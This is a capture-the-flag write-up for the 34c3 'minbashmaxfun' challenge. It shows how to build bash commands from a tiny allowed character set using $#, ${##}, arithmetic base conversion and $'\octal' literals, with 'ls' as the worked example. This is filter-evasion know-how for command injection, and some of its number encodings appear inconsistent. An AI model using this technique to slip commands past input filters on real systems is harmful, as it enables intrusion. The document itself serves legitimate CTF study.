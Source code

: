 ```__=$((($$/$$))) -> Puts the value 1 in $__```. As covered on the aforementioned site (((…))) allows you to do arithmetic in bash so $$/$$ evaluates to 1.





## 34c3 CTF - minbashmaxfun

this challenge poses two main obstacles: the allowed characters — **$()#!{}<\’,**, and the other, is stdin is closed right before invoking your command.

Our Arsenal

We have quite a few tools at our disposal which we use in our solution, so let’s start by explaining them:

```
$# - number of arguments -  (evaluates to 0)
${##} - count variable (#) length - (evaluates to 1)
$((expr)) - arithmetic expression
<<< - here string 
${!var} - indirect expansion
$'\123' - convert octal to a character in string literal
{a,b} - curly brace expansion
```

That’s the basis, and we build upon this like so:

```
$((${##}<<${##})) - 1 left shift by 1, evaluates to 2
${!#} - executes bash (as the first argument is /bin/bash)
$((2#1000001)) - convert binary to decimal. 2, 1 and 0 are forbidden and will be replaced
```

A simple start

Let’s start by converting one simple command: ls.

The octal representation of the characters is 0154, 0163. So our final goal is to build this bash string: $'\154\163.Since we cannot obviously send the digits, let’s start by converting each them to a binary representation, like so: 0b10011010, 0b10100011.

Now, this we can work with. Simply convert each of the binary-digits to either \$# (0) or ${##} (1). Then put the result of each character inside arithmetic-expansion braces. This should be the result:
```
154: $((2#${##}$#$#${##}${##}$#${##}$#))
163: $((2#${##}$#${##}$#$#$#${##}${##}))
```
All that’s left to do at this point, is two simple things:

    Replace the 2 in the arithmetic-conversion to the left-shift as explained before.
```
154: $(($((${##}<<${##}))#${##}$#$#${##}${##}$#${##}$#))
163: $(($((${##}<<${##}))#${##}$#${##}$#$#$#${##}${##}))
```

2. Place the converted numbers inside a dollar quoted string literal (i.e $'\154'$'\163').

```
154: \$\'\\$(($((${##}<<${##}))#${##}$#$#${##}${##}$#${##}$#))\'
163: \$\'\\$(($((${##}<<${##}))#${##}$#${##}$#$#$#${##}${##}))\'
```
Do note that the string literal elements are all carefully escaped, if they weren’t escaped, the inside string was not going to be expanded at all by bash, and taken as… well… a string literal :).

```
